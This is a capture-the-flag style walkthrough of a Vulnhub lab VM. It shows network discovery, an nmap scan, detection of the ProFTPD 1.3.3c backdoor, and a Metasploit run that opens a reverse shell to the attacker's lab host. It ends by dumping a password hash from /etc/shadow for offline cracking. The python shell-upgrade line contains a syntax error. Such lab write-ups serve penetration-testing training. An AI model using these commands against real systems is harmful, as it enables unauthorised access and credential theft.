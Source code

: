 |---|---|
|:---|:----|
| Category: |	Small boot2root VM |
|Platform: |	Vulnhub |
|Vulnerability: | Fpt |
|End Goal: |	Get root |
|Tool: | nmap,searchsploit, msfconsole |
|Tag:	| #ProFTPD 1.3.3c exploit |

## Pennetration Methodologie
- Scan the target
  - Find target's IP
  - Nmap scan
- Enumeration
  - FTP vuln scan
  - Searchsploit
- Exploit
  - Exploit ProFTPD 1.3.3c
  - Get root
## Walkthrough
### Scanning
- Firstly I find the target’s IP by using **netdiscover** tool, we can easily find ip of the victim machine
```
┌──(root㉿kali)-[/home/kali]
└─# netdiscover -i eth0 -r 192.168.44.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts                                                               17 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 1020                                                           
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.44.2    00:50:56:f2:22:8b      6     360  VMware, Inc.                                                                    
 192.168.44.1    00:50:56:c0:00:08      1      60  VMware, Inc.                                                                    
 192.168.44.130  00:0c:29:0e:97:6e      8     480  VMware, Inc.                                                                    
 192.168.44.254  00:50:56:e3:25:b0      2     120  VMware, Inc.
```
Target: **192.168.44.130** 
- Let's continue with **Nmap** scan.
```
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -sC -Pn -T4  192.168.44.130
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 17:24 EDT
Nmap scan report for 192.168.44.130
Host is up (0.00088s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 00:0C:29:0E:97:6E (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.12 seconds
```
From this we can see the following ports and services:
- 21/tcp open  ftp     ProFTPD 1.3.3c
- 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
- 80/tcp open  http    Apache httpd 2.4.18
### Enumeration
#### FTP vuln scan
Use Nmap vuln scan to find scan ftp service 
```
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -sC -Pn -T4 --script=vuln -p 21 192.168.44.130
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 17:35 EDT
Nmap scan report for 192.168.44.130
Host is up (0.0018s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
| ftp-proftpd-backdoor: 
|   This installation has been backdoored.
|   Command: id
|_  Results: uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
```
From the result, there are a FTP vulnerability. we can exploited: **ftp-proftpd-backdoor**
## Exploit FPT exploit
The frist I use **searchexploit** to find the way exploit ftp.

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/08a13c0c-4031-4e9d-862d-2545d9e4d2e3)

I find the the way to exploit by using metasploit. Start **msfconsole** and set options to exploit.
```
msf6 > search ProFTPD 1.3.3c
msf6 > use 0
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > show options
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set RHOSTS 192.168.44.130
RHOSTS => 192.168.44.130
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > show payloads
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set payload payload/cmd/unix/reverse
payload => cmd/unix/reverse
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set LHOST 192.168.44.20
LHOST => 192.168.44.20
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > exploit
```
When exploit successful, you get a shell. Using command **python -c 'import pty;pty.spawn.("/bin/sh")'**

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/b1e4821a-5a7b-4616-8b5f-188601268040)
Using command **id** to get current user'IP.

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/7894b801-a967-4fdb-a3a6-f14ae862c5fd)

Dump file /etc/passwd and /etc/shadow
```
echo "marlinspike:$6$wQb5nV3T$xB2WO/jOkbn4t1RUILrckw69LR/0EMtUbFFCYpM3MUHVmtyYW9.ov/aszTpWhLaC2x6Fvy5tpUUxQbUhCKbl4/:17484:0:99999:7:::" >> shadow.txt

echo "marlinspike:x:1000:1000:marlinspike,,,:/home/marlinspike:/bin/bash" >> passwd.txt

```
So we can crack it with **john the ripper**.




